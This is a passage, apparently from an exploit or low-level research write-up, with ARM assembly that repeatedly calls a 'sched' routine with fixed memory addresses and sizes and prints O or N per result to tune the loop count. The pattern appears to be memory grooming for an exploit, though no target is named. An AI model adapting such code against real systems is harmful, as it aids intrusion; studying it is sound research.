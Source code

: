 ```asm
.text
.globl start
start:

        ldr r9, =#59

        sub sp, sp, #0x400
        mov r11, sp

loop:

        bl rand
        str r0, [sp]
        eor r0, r0
        str r0, [sp, #4]

        mov r1, sp
        ldr r2, =#0x04400000
        ldr r3, =#0x7f000
        bl sched

        cmp r0, #0x0
        moveq r3, #79
        movne r3, #78

        str r3, [sp]
        mov r3, #0x0A
        str r3, [sp, #0x01]

        mov r1, sp
        mov r2, #0x2
        bl write


        sub r9, r9, #0x1
        cmp r9, #0
        bne loop
        
lastone:
        bl rand
        str r0, [sp]
        eor r0, r0
        str r0, [sp, #4]

        mov r1, sp
        ldr r2, =#0x04400000
        ldr r3, =#0x6dfe0
        bl sched
```

At each step of the loop we are actually writing O (for OK) or N (for  Not OK) depending on the syscall result. I used this initially to determine how many iterations of the loop I needed.
